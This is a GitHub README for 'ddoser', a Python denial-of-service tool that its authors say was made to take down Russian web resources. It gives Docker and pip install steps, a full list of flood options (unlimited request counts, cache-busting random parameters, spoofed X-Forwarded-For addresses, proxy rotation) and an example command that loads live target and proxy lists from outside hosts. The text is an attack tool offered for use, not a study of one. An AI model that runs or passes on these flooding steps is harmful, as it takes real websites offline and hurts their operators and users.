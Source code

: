 # The you seddoser
Small application for ddos attack, was developed special for kill russian's resources :)
# Contacts
If you have a questions or any proposal/bug thern pls contact us [ddoser telegram group](https://t.me/+eodJuvlTiK9hYWYy)
## Docker run (easy way)
Install docker https://docs.docker.com/engine/install/
```shell
# with default urls and proxies
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser
# with custom params
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser --target-urls-file sime.txt ... (check usage section)
# help
docker run --pull always --ulimit nofile=100000:100000 -it imsamurai/ddoser --help
```
Each run will update ddoser inside.
## Install
### Linux
```shell
sudo apt install python3
sudo apt install python3-pip
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
### MacOs
Download and install python3.7-3.9 form here https://www.python.org/downloads/macos/ if you don't have it
or install by brew
```shell
brew install python@3.9
brew link python@3.9
```
### Common for any system
```shell
git clone https://github.com/taransergey/ddoser.git
cd ddoser/
pip install -r requirements.txt
```
## Run
```shell
Usage: ddoser.py [OPTIONS]

  Run ddoser

Options:
  --target-url TEXT            ddos target url
  --target-urls-file TEXT      path or url to file contains urls to ddos
  --proxy-url TEXT             url to proxy resourse
  --proxy-file TEXT            path to file with proxy list
  --concurrency INTEGER        concurrency level
  --count INTEGER              requests count (0 for infinite)
  --timeout INTEGER            requests timeout
  -v, --verbose                Show verbose log
  --ignore-response            do not wait for response body
  --with-random-get-param      add random get argument to prevent cache usage
  --user-agent TEXT            custom user agent
  --log-to-stdout              log to console
  --restart-period INTEGER     period in seconds to restart application (reload proxies ans targets)
  --random-xff-ip              set random ip address value for X-Forwarder-For header
  --custom-headers TEXT        set custom headers as json
  --stop-attack INTEGER        stop the attack when the target is down after N tries
  --shuffle-proxy              Shuffle proxy list on application start
  -H, --header <TEXT TEXT>...  custom header
  --proxy-custom-format TEXT   custom proxy format like "{protocol}://{ip}:{port} {login}:{password}"
                               (ip and port is required, protocol can be set by --protocol)
  --help                       Show this message and exit.
```
proxy-file or proxy-url should contain proxy list in format like:
```text
ip1:port1#sock5
ip2:port2#sock4
ip3:port3#sock4 login:password
ip4:port4#http login:password
ip5:port5#http login:password
ip6:port6#https login:password
...
ipN:portN#sock4
```
### Example cmd
```shell
python3 ./ddoser.py --concurrency 150 --timeout 60 --with-random-get-param --user-agent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36" --count 0 --log-to-stdout --target-urls-file https://raw.githubusercontent.com/maxindahouze/reactor/main/targets3.txt --proxy-url 'http://143.244.166.15/proxy.list' --restart-period 600 --random-xff-ip
```
## Notes
**ddoser** supports SOCKS4/5 and HTTP(s) proxies with or without authorization, also can start it directly without proxy

Use **--restart-period** parameter to periodically reloading targets and proxies list   

If you see an error `too many open files` then you can decrease concurrency/targets count but first of all
try to increase the limits:
### Linux/MacOS:
```shell
ulimit -n 100000
```
### WSL:
```shell
mylimit=100000
sudo prlimit --nofile=$mylimit --pid $$; ulimit -n $mylimit
```
